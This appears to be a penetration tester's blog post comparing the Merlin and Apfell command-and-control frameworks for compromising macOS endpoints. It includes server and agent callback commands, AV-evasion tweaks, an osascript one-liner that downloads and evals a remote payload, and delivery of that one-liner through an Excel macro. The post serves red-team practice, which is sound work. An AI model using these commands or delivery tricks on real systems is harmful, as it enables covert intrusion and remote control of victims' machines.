 ```yaml
---
layout: default
title: OSX Pentesting Part-1
permalink: /blog/OSXPenP1
---
```


# OSX Pentesting Part-1
## A brief foray into OSX C2 Frameworks
*original posted [here](https://chessict.co.uk/blog/av-for-mac-do-you-really-need-it/)*

As a Pentester, I often find myself attempting to identify, * read: shamelessly steal/adapt people's research*, new and intuitive ways to gain access and persistence on Windows endpoints without triggering the AV. My current go-to being a combination of shellcode injection and cobbr's Covenant C2. However, one of the main drawbacks of these frameworks is their limited, or complete lack of, applicable stagers for OSX.

Now I'm sure we've all heard the spiel "Mac's don't get viruses", "Mac AV is a waste of money" etc. but we know that's simply not true. This knowledge, however, doesn't help when you find yourself on an engagement desperately trying to reconfigure payloads because you've landed in the Design department and, of course, all the endpoints on your subnet are OSX.

*Before I go much further, confession time: I have, and love, my MacBook Pro. Since switching to it a few years ago as my daily driver, I couldn't be without it, to the extent that I bought my own to use at work rather than use the Windows laptop provided.*

So here we are, my go-to C2 is .Net based and while the control centre will run on OSX, with some cajoling, there is no OSX stager capability out of the box; enter 'Merlin' and 'Apfell'.


### Merlin

While I've experimented with Ne0nd0g's Merlin C2 on and off for a while, I actually very rarely find myself using it on engagements and I have no idea why. Written in Go, a language I'm actively trying to understand and utilise more, it can easily have agents compiled for Linux,OSX and Windows. One of Merlin's key features is its ability to evade network detection by utilising the HTTP/2 protocol (which most tools are ill-equipped to understand or inspect).

Out of the box, setup is relatively simple. It's just a case of downloading the applicable server and agent binary from the [GitHub repo](https://github.com/Ne0nd0g/merlin/releases). Once you've got the relevant binaries, you can spin up the merlin server from the terminal using the below command.

```python 
merlinServer-Linux-x64 -p 80 -i 0.0.0.0 
```
With 80 signfying the port you wish to listen on and 0.0.0.0 being the interface (in this case all)

![MServerStartup]({{site.url}}/assets/blog/OSXPenP1/MserverStartup.png)

Agent execution is achieved simply by executing the binary on your target host with the relevant details of your C2 server. I leave it to the reader to identify how they might get this binary onto the target host.

```python
merlinAgent-Darwin-x64 -url https://192.168.1.104:80
```

And thats it! We should now have a callback from our OSX target to our C2 server

![MCallBack]({{site.url}}/assets/blog/OSXPenP1/MAgentCallBack.png)

While this is very simple to set up, this simplicity comes with its drawbacks. From an attack vector perspective, the need to drop a binary onto disk and the requirement for a URL flag makes it more complex to trick a user into execution via social engineering. Additionally, the pre-compilation of the agent means it is much more likely to be detected by signature detection, as shown by VirusTotal.

![MVT1]({{site.url}}/assets/blog/OSXPenP1/MVT1.png)

Straight away, we can start to address some of these issues. Instead of utilising the released binary, we can create our own from source. We can also improve our social engineering chances by providing a method for 'one-click' execution by hard coding the connection URL.

```python
make agent-darwin URL=https://192.168.1.104:80
```

Both of these instantly drop the detection rate.
![MVT2]({{site.url}}/assets/blog/OSXPenP1/MVT2.png)

Unfortunately, these changes were not enough to trick the NextGen Sophos AV running on my Mac. At this stage, I would typically look at writing a separate dropper application as well as converting the stager into shellcode to avoid detection. This is both outside of the scope of this small blog and outside of my current OSX coding skills.

### Apfel

ApFell is a recent addition to my C2 arsenal, mainly due to it being directly targeted against *nix-based systems and not Windows. Fundamentally using a Web GUI frontend with docker instances running in the background, setup is achieved relatively easily via an [installation script](https://github.com/its-a-feature/Apfell).

On connecting to the WebGui you can easily review what operations are in progress and choose which one you want to connect to.

![APFellS1]({{site.url}}/assets/blog/OSXPenP1/ApFellS1.png)

Payload generation is similarly streamlined by simply accessing the 'Create Components/Create Payload' menu.

![APFellPayload]({{site.url}}/assets/blog/OSXPenP1/APFellPayload.png)

From this menu, you can customise your attacking payload with the standard information such as encryption key, call-back host/port etc. The most notable element of payload creation is the ability to choose what functionality to include in your payload – a stroke of genius in situations where you're trying to stay undetected.

![APFellPayload2]({{site.url}}/assets/blog/OSXPenP1/APFellPayload2.png)

By restricting the functionality of any initial stager to just that which is required (typically something with command execution). Once a foothold has been achieved you can always include additional functionality in later payloads.

On clicking 'Submit' you can review/host/download your payload from the 'Manage Operations/Manage Payloads' page.

![APFellPayload3]({{site.url}}/assets/blog/OSXPenP1/APFellPayload3.png)

Now, because I'm one - lazy and two - don't like dropping directly malicious files to disk when I can help it, Apfell's ability to host files is definitely another bonus.

![APFellPhosting]({{site.url}}/assets/blog/OSXPenP1/APFellhosting.png)

Though based upon VirusTotal's detection metrics, dropping the resulting file onto the disk is currently unlikely to raise many flags.

![APFellVT1]({{site.url}}/assets/blog/OSXPenP1/APFellVT1.png)

By clicking on 'Config' you can review the settings of your payload, as well as obtain the relevant execution command.

```javascript
osascript -l JavaScript -e "eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('http://domain.com/payload.file')),$.NSUTF8StringEncoding)));"
```

Whilst not exactly the easiest command to trick users into executing, well in the capabilities of a rubber ducky/digispark attack scenario.

![APFellCallback1]({{site.url}}/assets/blog/OSXPenP1/APFellCallback1.png)

It’s not pretty, but it gets the job done, with AV none the wiser.

As stated before, this isn't exactly social engineering friendly – however thanks to Microsoft's inclusion of the VBA command 'Shell' and its cross-platform capabilities, getting this to execute from a macro is straight forward.

![APFellMacro]({{site.url}}/assets/blog/OSXPenP1/APFellMacro.png)

I started to play around with throwing some obfuscation into this (hence the commented out lines), but in the end this wasn't needed and AV lets it sail through with no issues, although the detection rate was increased.

![APFellVT2]({{site.url}}/assets/blog/OSXPenP1/APFellVT2.png)

This is most likely down to using an 'xlsm' to wrap my payload and the AV's in question being a bit twitchy (none of the Enterprise-based AV batted an eye), rather than them identifying the malicious content for what it is.

### Conclusion

Both C2 frameworks have good points and bad points, however on the whole I’d have to say Apfell takes the lead as the better framework when it comes to OSX C2 exploitation. This is primarily due to it providing lower AV detections, dropping fewer files to disk and the ability to customise payloads to fit particular use-cases, rather than being forced to include all capabilities and raising the detection risk. 

In part-2 (whenever I get around to write it), I’ll be looking more at how you can utilise both inbuilt OSX functionality as well as your own tooling to exploit Active Directory from the position of a compromised OSX device.
